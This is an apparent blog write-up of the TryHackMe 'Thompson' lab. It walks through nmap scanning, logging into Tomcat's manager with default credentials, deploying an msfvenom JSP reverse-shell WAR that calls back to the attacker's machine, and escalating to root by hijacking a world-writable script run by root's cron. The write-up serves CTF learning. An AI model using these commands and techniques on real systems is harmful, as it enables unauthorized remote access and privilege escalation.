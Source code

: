 ```yaml
---
layout: post
title: PenLog - "Thompson" by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run both a normal service scan and full port scan on the target IP `nmap`:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open browser and navigate to target's open http port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to _/manager_ by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials:
* **Username:** tomcat
* **Password:** :s3cret

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to _/manager_ with the above mentioned example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**NOTE:** You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated _shell.war_:

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom` -- to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.

The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)